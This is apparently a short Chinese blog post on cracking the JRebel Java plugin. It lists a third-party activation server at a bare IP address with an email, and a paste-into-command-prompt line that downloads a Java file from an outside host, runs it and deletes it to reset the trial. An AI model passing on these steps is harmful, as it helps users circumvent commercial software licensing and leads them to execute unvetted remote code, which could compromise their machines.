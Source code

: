 ```yaml
---
title: JRebel破解以及问题解决
categories:
  - [tools,idea]
tags:
  - java
  - tools
  - idea
---
```


## 破解

# Jrebel License Server! (兼容 2023.4.0 +)

JRebel 激活地址: http://42.193.18.168:8088/d0cdedde-09ed-44e7-b291-b50d81ab46c0

JRebel 激活邮箱: 295429404@qq.com

## JRebel 无限试用，请将以下内容拷贝到命令提示符中执行:

```bat
curl https://register.jpy.wang/ReRegister/src/main/java/jrebel/JrebelMain.java -o tmp.java && java tmp.java && del tmp.java
```

执行后会弹出一个提示框，点击中间的按钮后过一会儿它就会生成 一个加密字符串并存储到idea缓存中。这样就可以了

## 问题

### 无法启动项目或模块

![img](https://raw.githubusercontent.com/PigPigLetsGo/imeages/master/516ef17db5574de0a061c87b047a536b.png)